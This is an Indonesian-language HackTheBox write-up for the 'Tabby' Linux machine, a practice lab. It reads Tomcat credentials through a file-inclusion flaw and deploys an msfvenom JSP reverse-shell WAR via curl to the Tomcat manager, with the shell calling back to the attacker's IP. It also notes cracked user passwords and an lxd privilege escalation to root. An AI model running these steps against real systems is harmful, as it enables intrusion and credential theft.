





# Tabby (Linux)



HackTheBox Tabby dengan operating system Linux, sepertinya box kali ini akan banyak berurusan dengan explotasi melalui CVE

### Enumeration

Pertama-tama mari kita melakukan port scanning menggunakan nmap

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-28 05:25 EDT
Nmap scan report for 10.10.10.194
Host is up (0.032s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=9/28%OT=22%CT=1%CU=42299%PV=Y%DS=2%DC=T%G=Y%TM=5F71AC2
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   31.50 ms 10.10.14.1
2   31.97 ms 10.10.10.194

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.76 seconds
```

Berdasarkan hasil nmap, kita mengetahui ada 3 port yang terbuka yaitu SSH, HTTP, dan HTTP Apache Tomcat

Ketika dibuka port 80 dan 8080 akan didapatkan tampilan seperti dibawah ini





Kita bisa menemukan domain megahosting.htb di tampilan website port 80, tapi sepertinya tampilannya sama saja dengan yang di port 80



Page news ternyata vulnerable terhadap Local File Inclusion, mengingat ada installation tomcat di port 8080 mari kita coba mengulik isi dari directory tomcat dengan acuan dari 

[https://packages.debian.org/sid/all/tomcat9/filelist](https://packages.debian.org/sid/all/tomcat9/filelist)

```
/etc/cron.daily/tomcat9
/etc/rsyslog.d/tomcat9.conf
/etc/tomcat9/policy.d/01system.policy
/etc/tomcat9/policy.d/02debian.policy
/etc/tomcat9/policy.d/03catalina.policy
/etc/tomcat9/policy.d/04webapps.policy
/etc/tomcat9/policy.d/50local.policy
/lib/systemd/system/tomcat9.service
/usr/lib/sysusers.d/tomcat9.conf
/usr/lib/tmpfiles.d/tomcat9.conf
/usr/libexec/tomcat9/tomcat-start.sh
/usr/libexec/tomcat9/tomcat-update-policy.sh
/usr/share/doc/tomcat9/README.Debian
/usr/share/doc/tomcat9/changelog.Debian.gz
/usr/share/doc/tomcat9/copyright
/usr/share/tomcat9-root/default_root/META-INF/context.xml
/usr/share/tomcat9-root/default_root/index.html
/usr/share/tomcat9/default.template
/usr/share/tomcat9/etc/catalina.properties
/usr/share/tomcat9/etc/context.xml
/usr/share/tomcat9/etc/jaspic-providers.xml
/usr/share/tomcat9/etc/logging.properties
/usr/share/tomcat9/etc/server.xml
/usr/share/tomcat9/etc/tomcat-users.xml
/usr/share/tomcat9/etc/web.xml
/usr/share/tomcat9/logrotate.template
/var/lib/tomcat9/conf
/var/lib/tomcat9/logs
/var/lib/tomcat9/work
```

### User

Mari kita cari credential dari /usr/share/tomcat9/etc/tomcat-users.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  NOTE:  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary. It is
  strongly recommended that you do NOT use one of the users in the commented out
  section below since they are intended for use with the examples web
  application.
-->
<!--
  NOTE:  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

Kita sudah mendapatkan username dan password

tomcat:$3cureP4s5w0rd123!

Sekarang kita bisa menggunakan credential tomcat manager itu untuk mengupload war file.

Namun remote connection ke manager file di limit, oleh sebab itu kita bisa menggunakan command curl

#CLI4life

Pertama kita akan membuat payload .war file menggunakan msfvenom

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=1234 -f war > rev.war

curl -v -u 'tomcat:$3cureP4s5w0rd123!' -T rev.war 'http://10.10.10.194:8080/manager/text/deploy?path=/rev&update=true'
```

Browse ke http://10.10.10.194/rev untuk membuka koneksi reverse shell



Menggunakan LinEnum.sh kita bisa menemukan backup.zip yang harus di crack terlebih dahulu menggunakan JTR. Dari sana kita bisa mendapatkan credentials user ash

ash:admin@it

### Root

```
ash@tabby:~$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

Untuk mendapatkan root kita bisa mengexploitasi lxd, referensi yang bisa digunakan dari link [https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)

[https://github.com/saghul/lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder)

```
~ # id
uid=0(root) gid=0(root)
```

# Rooted !